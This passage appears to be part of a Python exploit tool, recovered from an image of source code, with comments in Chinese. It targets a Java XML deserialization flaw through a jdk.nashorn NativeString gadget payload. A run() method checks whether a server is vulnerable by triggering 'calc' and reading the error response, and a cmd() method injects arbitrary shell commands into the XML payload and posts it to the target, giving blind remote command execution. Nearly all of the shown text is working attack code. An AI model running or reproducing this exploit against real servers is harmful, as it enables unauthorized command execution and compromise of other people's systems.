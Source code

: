 ```python
                                    </is>
                                    <consumed>false</consumed>
                                </dataSource>
                                <transferFlavors/>
                                </dataHandler>
                                <dataLen>0</dataLen>
                            </value>
                            </jdk.nashorn.internal.objects.NativeString>
                            <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
                        </entry>
                        <entry>
                            <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
                            <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
                        </entry>
                    </map>
                '''

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            self.check_payload = self.payload.format(cmd = '<string>calc</string>')
            check_req = requests.post(self.url, headers = self.headers, data = self.check_payload)
            if check_req.status_code == 500 and 'java.security.Provider$Service' in check_req.text:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass
    
    def cmd(self, cmd):

        """
        执行命令

        :param str cmd: 要执行的命令

        :return tuple result: 执行的结果
        """

        try:
            if self.run():
                cmd_list = cmd.split(' ')
                cmd_str = ''
                for key in cmd_list:
                    cmd_str = cmd_str + "<string>" + key + "</string>"
                self.cmd_payload = self.payload.format(cmd = cmd_str)
                cmd_req = requests.post(self.url, headers = self.headers, data = self.cmd_payload)
                return True, '命令已执行,但无法回显'
            else:
```